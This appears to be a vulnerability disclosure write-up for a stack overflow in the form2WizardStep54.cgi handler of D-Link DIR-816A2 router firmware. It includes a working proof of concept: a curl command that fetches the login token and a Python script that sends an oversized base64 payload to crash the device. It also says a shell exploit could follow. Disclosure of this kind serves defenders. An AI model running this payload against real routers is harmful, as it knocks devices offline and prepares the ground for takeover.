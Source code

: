 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WizardStep54.cgi.    The contents obtained by the wizardstep54_pskpwd parameter are passed to V8, and then the contents matched by V8 are decoded and put into the V14 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2WizardStep54.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'wizardstep54_next': 'a',
    'wizardstep54_wlanDisabled': 'b',
    'wizardstep54_ssid': 'c',
    'wizardstep54_sec': 'd',
    'wizardstep54_pskpwd': payload,
    'wizardstep54_chanwid': 'e'
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
